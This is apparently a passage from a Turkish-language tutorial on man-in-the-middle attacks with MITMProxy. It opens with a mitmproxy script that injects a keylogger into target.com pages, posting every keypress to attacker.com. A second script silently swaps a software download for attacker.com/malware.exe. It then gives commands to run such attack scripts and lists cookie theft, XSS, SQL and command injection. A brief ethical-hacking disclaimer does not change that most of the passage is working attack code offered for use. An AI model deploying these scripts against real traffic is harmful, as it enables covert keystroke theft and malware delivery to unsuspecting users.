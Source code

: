 def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", """
 
 document.addEventListener('keypress', function(event) {
 fetch('http://attacker.com/log', { method: 'POST', body: event.key });
 });
 
 """)

📌 Bu betik, hedef web sitesine keylogger enjekte eder ve saldırganın sunucusuna gönderir.

6. Hedef Trafiğini Manipüle Etme (Exploit Sunma)
MITMProxy ile bir kullanıcının belirli bir siteyi ziyaret ettiğinde ona zararlı bir dosya sunabilirsiniz.
🔹 Örnek 8: Kullanıcıya Zararlı EXE Dosyası Sunma
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if "example.com/software.exe" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/malware.exe"

📌 Bu betik, hedef kullanıcının indirdiği yazılımı saldırganın zararlı dosyasıyla değiştirir.

7. MITMProxy Script'lerini Çalıştırma
Bu saldırı betiklerini çalıştırmak için şu komutu kullanabilirsiniz:
bash
mitmproxy -s attack\_script.py
veya
bash
mitmweb -s attack\_script.py

Mitmweb kullanıyorsanız, http://127.0.0.1:8081 adresinden manuel müdahale edebilirsiniz.

Sonuç
✅ MITMProxy ile Enjeksiyon Teknikleri:
XSS saldırısı enjekte etme
Kimlik doğrulama çerezlerini çalma
SQL Injection payload ekleme
Komut enjeksiyonu
Keylogger ekleyerek kurbanın klavye girdilerini kaydetme
Zararlı yazılım yükleme (drive-by-download saldırıları)
MITMProxy ile Man-in-the-Middle (MITM) Saldırısı Nasıl Yapılır?
MITMProxy, HTTP ve HTTPS trafiğini dinleyerek, değiştirilmiş veya zararlı veriler enjekte ederek Man-in-the-Middle (MITM) saldırıları yapmak için kullanılabilir. Bu kılavuz, MITM saldırısının nasıl gerçekleştirileceğini adım adım anlatmaktadır.
📌 UYARI: Bu teknikler yalnızca etik hackerlık, güvenlik testleri ve eğitim amaçlıdır. Yetkisiz saldırılar yasa dışıdır.

1. MITM Saldırısı Nedir?
Man-in-the-Middle (MITM) saldırısı, saldırganın kurban ile hedef sunucu arasındaki trafiği gizlice dinlediği, değiştirdiği ve yönlendirdiği bir saldırıdır. MITMProxy, bu saldırıyı gerçekleştirmek için güçlü bir araçtır.
✔ HTTPS ve HTTP trafiğini analiz edebilir
✔ Veri paketlerini değiştirebilir veya yönlendirebilir
✔ Oturum çerezlerini (session cookies) çalabilir
✔ Formlara veya yanıt içeriklerine zararlı kod enjekte edebilir

